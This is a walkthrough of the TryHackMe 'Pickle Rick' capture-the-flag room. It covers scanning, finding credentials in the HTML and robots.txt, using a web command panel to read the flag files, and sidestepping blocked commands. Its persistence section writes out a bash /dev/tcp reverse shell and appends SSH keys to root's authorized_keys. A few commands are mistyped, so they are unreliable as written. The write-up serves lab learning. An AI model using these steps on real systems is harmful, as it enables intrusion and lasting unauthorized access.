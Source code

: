 # TryHackMe Pickle Rick Write-up

This is a walkthrough of my process completing the Pickle Rick room on TryHackMe.com. I will be using the attack box provided by TryHackMe in this case which utilizes the root user, however, this is not the best practice. It is always recommended you perform commands with the least privilege possible. Because I also managed to break the machine (*several times*) I will wildcard the last 2 octets of the IP address.

---

# Planning and Reconnaissance
*In this room, we are roleplaying as Morty from the hit TV show, "Rick and Morty".* Defining our scope: Rick has turned into a pickle and needs 3 ingredients for a potion to turn back into a human. Unfortunately, these ingredients are hidden on his computer, and Pickle Rick has forgotten his password. Our task is to retrieve his password, access his data, and locate the 3 separate files containing the 3 ingredients. Pickle Rick provided us with the target machine's IP address, 10.10.*.*.

# Scanning and Enumeration
We begin with NMap. Using the command "nmap -Pn -vvv 10.10.*.*" stealthily scans the first 1000 most common ports that might be active on a machine. This scan reveals ports 22 (**SSH**) and 80 (**HTTP**) are open, and likely running these services. 

![image](https://github.com/user-attachments/assets/40b3f0f6-f221-4b2e-9318-2dd3b9c80a5f)


Attempting the command "ssh rick@10.10.*.*" reveals password login via SSH is disabled, requiring a key. 

![image](https://github.com/user-attachments/assets/be74ac94-6fc0-43d7-b8e0-e32dd57a5d16)


Let's check if there is a website associated with that IP address, "HTTP://10.10.*.*"...

![image](https://github.com/user-attachments/assets/b3b64b84-130f-4f51-9410-44f043c5565b)

There is!

Now let's quickly investigate the website's HTML using the shortcut "CTRL + SHFT + I".

![image](https://github.com/user-attachments/assets/5b40a88a-60b9-42ea-b37e-d6e130caa739)

In the body of the HTML, we can see Rick left his username, R1ckRul3s. 

Reviewing the directories of the webpage, we can see there are some files. 

![image](https://github.com/user-attachments/assets/cd8034c7-379f-440b-8c80-8cab2175792f)


Visiting the "/assets*" directory reveals some more files and that the website is using Apache.

![image](https://github.com/user-attachments/assets/629ee3f1-ac20-44e8-84e1-1569dc7aa318)


However, only one in particular may have some relevance, that being a portal. Attempting to access "HTTP://10.10.*.*/portal", unfortunately, doesn't reveal anything so let's dig deeper.

![image](https://github.com/user-attachments/assets/adfdddff-82b6-4ae3-8626-6fdc030df218)

Using GoBuster to fuzz "*gobuster dir -u http://10.10.*.* -w /usr/share/wordlists/SecLists/Fuzzing/fuzz-Bo0oM.txt*" has revealed there are "login.php" and "robots.txt" pages, also indicating the webpage itself is using PHP.

![image](https://github.com/user-attachments/assets/9ed5f817-30f7-4ac6-964f-be8f0acd7f21)
![image](https://github.com/user-attachments/assets/8e8c7793-ba88-4f7a-aff6-9369ff0dae83)

Visiting the page "HTTP://10.10.*.*/robots.txt" reveals an odd string, "Wubbalubbadubdub", possibly the password.

![image](https://github.com/user-attachments/assets/466cd2ea-2b57-4e15-917c-c7aa4416f0e6)


# Gaining Access

Now, let's try some good ol' credential stuffing... Success!

image


Now that we have access, let's see what else we can find. 

Unfortunately, it seems these other tabs don't lead anywhere. 

![image](https://github.com/user-attachments/assets/3bfd5477-2ba7-42b1-899d-06cd92640840)

Let's check the HTML of this page.

![image](https://github.com/user-attachments/assets/769d5483-3fc3-45ee-98b9-f4098165087f)

This reveals an encoded string, "Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==". Let's see if we can decode this using the command "echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | base64 -d".

![image](https://github.com/user-attachments/assets/9743543c-8ff8-4af5-a7a4-6b0be367ef21)

Unfortunately, it seems this was just an elaborate rabbit hole set up by Rick.

Let's try the command field. Running "uid" reveals we are logged in as "www-data", and not Rick which might explain why we can't view the other pages.

![image](https://github.com/user-attachments/assets/e1ece65a-3b8d-43b8-a56a-236476666200)

Let's check our permissions with "sudo -l".

![image](https://github.com/user-attachments/assets/c8572de5-65dc-406b-a52f-b719f80fa08d)

It appears we have access to all commands via sudo.

Let's check our current directory and what's in it.

![image](https://github.com/user-attachments/assets/d9a1a960-352f-4ef2-954e-6add073fd061)

![image](https://github.com/user-attachments/assets/b12ddf11-bf13-47e7-9e60-e55eb0b373c0)

There is the first ingredient, and a clue!

Unfortunately, it seems some commands like "locate", "tail", "head", and "cat" are prohibited even with "sudo", however, it seems this is a function of this webpage and not a lack of permissions. Let's see if we can bypass this by using some other commands.

![image](https://github.com/user-attachments/assets/13cb09ec-8907-4964-b9c4-fd6d0210f1af)

"find", "less", "strings", and "grep" as does "sudo /../../*" work. Visiting the specific directory in the website also works.

![image](https://github.com/user-attachments/assets/7a2a8260-3cb5-4add-9838-6bef308deeaf)

![image](https://github.com/user-attachments/assets/476fe758-7486-426e-9931-704c59536b7a)

Now that we can read the first ingredient, let's find the other two using "".

image

There are the last two!

image
image

And poof, just like that Rick is back to normal!

# Maintaining Access

However, because we are Evil Morty and we want to be able to access Rick's data in the future, let's see if we can create a [reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). We start by listening with "netcat", "nc -nlvp 8080". 

![image](https://github.com/user-attachments/assets/48a91638-d2a3-497f-bfe1-e029b65c7ffa)

Running the command "bash -i >& /dev/tcp/10.0.*.*/8080 0>&1" within the command filed does not work, however, when encapsulating first with "bash -c ''", it does work, "bash -c 'bash -i >& /dev/tcp/10.0.*.*/8080 0>&1'". 

![image](https://github.com/user-attachments/assets/d937e39d-0540-4ebc-84b8-5e9073a0218f)

Let's see if we can become root...

![image](https://github.com/user-attachments/assets/a8fb6697-4e48-4b93-a4d8-4a97b0e08075)

Success!

With this, we can simply generate a RSA key pair using "sshkeygen rsa"; 
Copy our public key;
And execute the following command within the shell. "sudo echo key >> /root/.ssh/authorized_keys && sudo echo key >> /home/ubuntu/.ssh/authorized_keys", 
Now let's test SSH login.

![image](https://github.com/user-attachments/assets/d234846e-61b2-46d1-8629-99ce7f20192d)

![image](https://github.com/user-attachments/assets/817cb8f7-4043-46e8-810a-5631e40ed260)

Success!

# Reporting
While SSH password login was disabled, this should be a reminder for Rick that security through obscurity can't work on it's own. There should always be other security measures in place. 

For improved security, we recommend Rick begin storing his username and password in an offline encrypted password manager, like KeePassXC, instead of the HTML and robots.txt files of his site. Additionally, Rick should separate the users, permissions, and access within his machine, as well as, disable root login via SSH.

---

# That's all folks!
